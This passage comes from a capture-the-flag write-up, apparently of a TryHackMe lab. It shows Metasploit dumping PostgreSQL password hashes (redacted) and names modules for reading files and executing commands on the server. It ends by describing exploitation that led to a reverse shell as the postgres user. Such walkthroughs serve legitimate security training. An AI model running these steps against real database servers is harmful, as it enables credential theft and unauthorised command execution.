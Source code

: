     ```sql linenums="1" hl_lines="13-18"
    msf6 auxiliary(scanner/postgres/postgres_hashdump) > setg PASSWORD [REDACTED]
    PASSWORD => [REDACTED]
    msf6 auxiliary(scanner/postgres/postgres_hashdump) > set DATABASE [REDACTED]
    DATABASE => [REDACTED]
    msf6 auxiliary(scanner/postgres/postgres_hashdump) > run

    [+] Query appears to have run successfully
    [+] Postgres Server Hashes
    ======================

    Username   Hash
    --------   ----
    darkstart  [REDACTED]
    poster     [REDACTED]
    postgres   [REDACTED]
    sistemas   [REDACTED]
    ti         [REDACTED]
    tryhackme  [REDACTED]

    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    ```
- [x] What is the full path of the module (starting with auxiliary) that allows an authenticated user to view files of their choosing on the server?
  
    * msf6 > `search type:auxiliary postgres`
    * Based on metasploit search results, its: `auxiliary/admin/postgres/postgres_readfile`

- [x] What is the full path of the module that allows arbitrary command execution with the proper user credentials (starting with exploit)?

     * msf6 > `search type:exploit postgres`
     * Based on metasploit search results, its: `exploit/multi/postgres/postgres_copy_from_program_cmd_exec`


!!! success "Tip"

    <span>To specify a value globally, such as RHOST or LHOST, in msfconsole, use the **setg** command instead of the **set** command. This eliminates the need to retype the value.</span>

    ```s
    setg RHOST 10.10.219.185
    setg LHOST 10.17.3.217
    ```


## <b>Exploitation</b>

To exploit the system, I ran `exploit/multi/postgres/postgres_copy_from_program_cmd_exec` with the necessary options. 

<img id="image1" />

Once the exploit was successful, I stabilized the system by establishing a reverse shell. The current user was **postgres** on hostname 'Ubuntu'.

